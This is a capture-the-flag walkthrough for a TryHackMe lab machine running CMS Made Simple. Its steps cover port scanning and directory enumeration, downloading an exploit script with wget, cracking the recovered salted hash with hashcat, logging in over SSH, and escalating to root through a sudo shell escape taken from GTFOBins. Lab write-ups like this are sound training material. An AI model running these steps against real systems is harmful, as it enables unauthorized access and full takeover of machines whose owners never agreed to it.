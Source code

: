 # SimpleCTF Room

[Link to room](https://tryhackme.com/room/easyctf)

## Scanning
Run an nmap scan on the IP address from your portal. Replace the IP below with your THM victim machine.

 ```
 sudo nmap -sC -sV -O 10.10.x.x -vv 
```

## Enumeration
Run GoBuster on the web server to determine the directories that are available. 

```
 gobuster dir -u http://10.10.x.x -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

You will not know what CVE to look for until you get to the webpage that is found in the GoBuster scan.

Once there, look at the bottom left corner of the webpage for Name of application and version number/

Next you will search for the CVE using Google. 

Then you will search for the exploit using the following.
```
  searchsploit CMS Made Simple
```
Once you have identified the CVE, download the updated python script as shown below.

```
  wget https://raw.githubusercontent.com/gray-area/THM/main/SimpleCTF/exploit.py
```
After the exploit.py script runs, there will be an output of the username, salt and hash. Use the salt and hash as shown below.
```
  hashcat -m 20 0c01f4468bxxxxxxxxxxx73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt
```
Now that you have the password, SSH into the box using the username that was found from the Python script. 
```
  ssh mitch@10.10.x.x -p 2222
```
Then open the user.txt file by entering the following
```
  cat user.txt
```

## Escalation

Now we need to get access to a privileged shell. To check what is running as root, enter the following.
```
  sudo -l
```

Now we can check out what options are available for this by going to GTFO Bins on GitHub and looking for our service. Make sure you select SUDO from the options.

We now have a code snippet to enter into our shell.
```
  sudo xxx -c ':!/bin/sh'
```

Now we have to find the root flag. I guessed the name here and found it was right. 

```
  locate root.txt
```
I then open file at the location provided like below

```
  cat /path/to/root.txt
```

Thats it! If you followed along, you have completed the challenge. 

Happy hacking - gray_area


